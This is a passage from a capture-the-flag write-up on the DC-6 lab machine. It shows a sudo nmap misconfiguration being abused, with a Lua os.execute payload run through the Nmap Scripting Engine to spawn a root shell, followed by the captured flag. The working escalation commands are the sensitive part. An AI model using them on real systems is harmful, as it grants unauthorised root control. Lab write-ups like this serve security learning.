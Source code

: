 The jeans user has permissions to execute the nmap binary as root with no password.

```bash
jens@dc-6:/home/graham$ sudo -l
sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:/home/graham$
```

## Privilege Escalation
### Sudo Permissions

An excellent guide to escalating privileges through this means you can found it in the [GTFOBINS](https://gtfobins.github.io/gtfobins/nmap/#sudo) cheat sheet.

Breaking down the nmap command, we create the **/tmp/shell** file that contains the instruction to execute an interactive **bash**, then through the NSE (Nmap Scripting Engine) it execute the **/tmp/shell** script that invokes a root shell.

```bash
jens@dc-6:/home/graham$ echo 'os.execute("/bin/bash -i")' > /tmp/shell
echo 'os.execute("/bin/bash -i")' > /tmp/shell
jens@dc-6:/home/graham$ sudo nmap --script /tmp/shell
sudo nmap --script /tmp/shell

Starting Nmap 7.40 ( https://nmap.org ) at 2022-01-10 06:53 AEST
NSE: Warning: Loading '/tmp/shell' -- the recommended file extension is '.nse'.
root@dc-6:/home/graham#
```

We go to the root directory and read the flag.

```bash
root@dc-6:/home/graham# cd /root
cd /root
root@dc-6:~# ls
ls
theflag.txt
root@dc-6:~# cat theflag.txt
cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
